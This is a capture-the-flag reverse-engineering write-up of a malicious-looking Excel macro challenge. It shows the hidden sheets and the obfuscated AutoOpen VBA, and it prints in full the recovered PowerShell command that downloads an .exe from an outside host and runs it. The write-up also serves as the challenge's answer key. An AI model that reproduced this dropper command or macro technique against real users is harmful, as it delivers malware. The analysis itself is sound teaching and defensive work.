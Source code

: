# Fruit Deals - Reverse Engineering Writeup

## Description:
![](screenshots/problem.png)

I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email

The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though.

By Samintell (@samintell on discord)

## Solution:
### Step 1:

On the initial load of the spreadsheet, It warned me saying that it was unable to find deals and the popup to enable macros

After opening up VB Editor, the first thing I noticed was the Sheets listed on the editor didn't match what was being shown on the main UI 
![](screenshots/Step1.1.png)


After Enabling the hidden sheets.
![](screenshots/Step1.2.png)
![](screenshots/Step1.3.png)



I was greeted with this awful mess.
![](screenshots/Step 1.3.png)

### Step 2:
In summary, the script appears to be dynamically constructing a command based on values in the Excel spreadsheet, executing the command, and then opening a specified YouTube link in the web browser which is most likely designed to move the end users' attention away from what the script is doing. 

Upon examining the code within the AutoOpen Macro, it initializes several variables and scans different cells within Sheet 2 for particular values. 
Depending on these values, specific strings are appended with corresponding values, ultimately forming a command ('f') by manipulating strings.

![](screenshots/Step2.png)

### Step 3:

To find out what the script is doing in the background, I briefly looked at what is being appended and saw some strings that stand out which was ```Invok``` ```http``` ```K.Dow``` and ```nload```

![](screenshots/Step3.1.png)
![](screenshots/Step3.2.png)

### Step 4:

To read the output, I just need to add a breakpoint on the line 
```
f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + e5b138e644d624905ca8d47c3b8a2cf41 + tfd753b886f3bd1f6da1a84488dee93f9 + z92ea38976d53e8b557cd5bbc2cd3e0f8 + xc6fd40b407cb3aac0d068f54af14362e
```
![](screenshots/Step4.png)

After opening up the variable viewer, I can see the strings and their values, which shows the script to be executed and the flag is appended to the $CNTA variable. 
![](screenshots/Step4.1.png)


### Executed Command: 
```powershell 
f = "poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';
$CNTA = 'banANA-Hakrz09182afd4';
$jri=$env:public+''+$CNTA+'.exe';
try{
  $oaK.DownloadFile($OrA, $jri);
  Invoke-Item $jri;
  break;
} catch {} ""
```

## Flag: utflag{banANA-Hakrz09182afd4.exe}
